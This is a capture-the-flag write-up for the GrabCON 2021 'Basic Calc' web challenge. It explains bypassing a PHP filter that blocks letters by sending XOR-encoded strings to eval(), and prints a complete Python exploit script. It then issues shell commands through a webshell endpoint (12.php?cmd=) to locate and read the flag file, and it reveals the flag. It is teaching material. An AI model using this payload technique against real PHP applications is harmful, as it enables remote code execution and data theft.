 # Basic Calc Writeup (web, 150pts, 88 solved)

## Description
```
Ever used calc based on php?

Link

Author: karma
```

## Task Analysis

Following the link brought me to the following beautiful webpage:

![Intro](/GrabConCTF-2021/Basic%20Calc/screenshots/intro.PNG)

Users are presented with a field designed to serve as a calculator, and immediately below it the unrendered html and php for the page. This made it clear that the field was protected by a WAF designed to disallow any upper or lower case letters as well as the "`" character within the submitted string. Any input that makes it past the WAF is passed to the eval() function. Our task, then, was to bypass this WAF and exploit the use of eval() to execute our own php code and find the flag.

# Solution

After briefly researching the topic I used a modified version of a python script from a [writeup for a previous CTF](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) that bypasses a very similar WAF:

```
import requests
import string

def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
print("[+] Generated valids => {}".format(valids))
 
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
 
response = requests.post('http://35.238.221.234', data={"eq":payload})

print(response.status_code, response.reason)
print(response.content.decode())
```

The script first creates a set of "valid" (i.e. will not trigger the WAF) printable characters. Each character in the "expected" string (the string we would like to be executed by eval()) is masked with a valid character from this set so that the result is another valid character. The masked characters (word1 below) and the valid characters used for the mask (word2 below) are then returned:  

```
def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
```

Masking is removed when the eval() statement applies the XOR operator ("^") included in the final payload string, which cancels out the initial masking. Something to note is that performing an XOR on two strings works here because php will perform [type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) when evaluating strings in a numerical context:

```
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
```

I executed the script with "phpinfo()" encoded as the payload and achieved the following output:

![working_bypass](/GrabConCTF-2021/Basic%20Calc/screenshots/phpinfo.PNG)

Receiving the desired output of phpinfo() determined that the bypass was working. I executed the script with "print_r(scandir(/var/www/html/))" as the payload to print out the current directory's contents:

![scandir](/GrabConCTF-2021/Basic%20Calc/screenshots/scandir.PNG)

I repeated running the script using "show_source(12.php)" to retrieve the contents of the file (the same was done for file.txt but it was empty of meaningful content):

![show_source](/GrabConCTF-2021/Basic%20Calc/screenshots/show_source.PNG)

Upon rendering the response to make it more readable, I had:

![rendered_response](/GrabConCTF-2021/Basic%20Calc/screenshots/rendered_response.PNG)

This file gave me an endpoint that would execute whatever bash commands I wanted to send to it by including a GET parameter, allowing me to navigate the file system a little more easily. So I used the Burp decoder tool to URL encode the following:

![burp_encode_find](/GrabConCTF-2021/Basic%20Calc/screenshots/burp_encode_find_flag.PNG)

And sent it to the endpoint:
```
import requests

#find / -name *flag*
response = requests.post('http://35.238.221.234/12.php?cmd=%66%69%6e%64%20%2f%20%2d%6e%61%6d%65%20%2a%66%6c%61%67%2a')

print(response.status_code, response.reason)
print(response.content.decode())
```
I recieved the following output:
![find_output](/GrabConCTF-2021/Basic Calc/screenshots/find_flag_output.PNG)

I repeated the above for "cat /flagggg.txt", and received:

![flag](/GrabConCTF-2021/Basic Calc/the_flag.PNG)

And I found the flag: "GrabCON{b4by_php_f0r_y0u}"

